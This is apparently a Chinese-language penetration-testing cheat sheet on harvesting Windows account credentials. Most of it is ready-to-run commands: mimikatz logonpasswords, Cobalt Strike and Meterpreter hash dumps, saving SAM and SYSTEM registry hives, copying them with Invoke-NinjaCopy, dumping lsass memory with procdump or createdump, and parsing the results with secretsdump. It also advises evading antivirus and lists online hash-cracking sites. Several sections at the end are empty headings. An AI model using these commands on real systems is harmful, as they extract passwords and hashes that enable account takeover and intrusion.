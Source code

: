 ## 系统账号密码

### 收集方法

#### mimikatz.exe
>Minikatz读取明文密码和Hash需要管理员权限
```bash
mimikatz.exe 找到脱密码的操作 ，然后针对脱密码进行免杀
现阶段一把dump操作 都会被杀软拦截

privilege::debug // 提升至debug权限
sekurlsa::logonpasswords // 抓取密码
```
- https://www.secpulse.com/archives/tag/mimikatz
##### Cobaltstrike
```bash
beacon> hashdump
beacon> logonpasswords
beacon> mimikatz sekurlsa::logonpasswords
```

##### MSF

```bash
meterpreter >load kiwi
#列举系统中的明文密码
meterpreter > creds_all
#读取sam文件
meterpreter > lsa_dump_sam
#kiwi_cmd命令后面接mimikatz.exe的命令
meterpreter > kiwi_cmd sekurlsa::logonpasswords
```

#### Netpass
```bash

```
#### 提取SAM数据库hash

##### 使用reg命令保存注册表键
```powershell
reg save hklm\sam c:\sam.hive
reg save hklm\system c:\system.hive
```

##### Invoke-NinjaCopy
```powershell
Import-Module \invoke-ninjacopy.ps1
Invoke-NinjaCopy-Path C:\Windows\System32\config\SAM-LocalDestination.\sam.hive
Invoke-NinjaCopy-Path C:\Windows\System32\config\SYSTEM
LocalDestination.\system.hive
```


##### 读取Hive文件
```bash
mimikatz.exe "lsadump::sam /system:system.hive /sam:sam.hive" exit
或者
python secretsdump.py -sam sam.hive -system system.hive LOCAL
```

#### procdump.exe
`procdump.exe -ma lsass.exe lsass.dmp`
获取到内存转储文件后，就可以使用mimikatz来提取密码命令如下：
```bash
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```
#### createdump.exe
```bash
createdump.exe -u -f lsass.dmp lsass进程PID号
查询进程号：tasklist | find "lsass
```

##### Get-PassHashes.ps1
```powershell
. .\Get-PassHashes.ps1   import-module .\Get-PassHashes.ps1
Get-PassHashes
```


#### 在线解密网站
- https://ophcrack.sourceforge.io/
- https://www.cmd5.com/
- https://hashes.com/zh/decrypt/hash  ![](media/Pasted%20image%2020250704000636.png)  ![](media/Pasted%20image%2020250704000621.png)
- 

## RDP凭据

## 浏览器凭据

## 数据库凭据

## 其他凭据

